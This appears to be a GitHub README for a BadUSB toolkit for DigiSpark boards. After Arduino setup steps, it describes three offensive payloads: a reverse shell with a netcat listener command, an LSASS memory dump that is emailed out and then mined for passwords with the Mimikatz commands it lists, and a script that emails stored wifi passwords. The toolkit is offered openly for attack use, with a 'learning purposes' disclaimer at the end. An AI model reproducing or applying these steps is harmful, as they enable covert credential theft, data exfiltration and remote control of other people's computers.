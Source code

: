 # BadUSB-DigiSpark Keyboard #

<p align="center">
  <img src="https://raw.githubusercontent.com/JodyWeijers/BadUSB-DigiSpark/master/3D/Evil.png">
</p>

### In order to upload the sketches to your DigiSpark you need the following: ###


- #### Download and install the Arduino IDE. ####
~~~~
https://www.arduino.cc/en/Main/Software
~~~~
- #### Configure and install the additional Digispark boards: ####
~~~~
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
~~~~
- #### Configure your Digisprark setup. ####
~~~~
In the Arduino IDE set your board to (DigiSpark Default 16,5 Mhz) and the programmer to USBtinyISP.
~~~~
- #### Download and install the Digistump Drivers. ####
~~~~
https://github.com/digistump/DigistumpArduino/releases
~~~~

***

# Reversed Shell #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host. ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.

***

# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

***

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords.
Text file is automatically send to an email address which can be configured in the variables.

***

### Only use this for learning purposes. ###
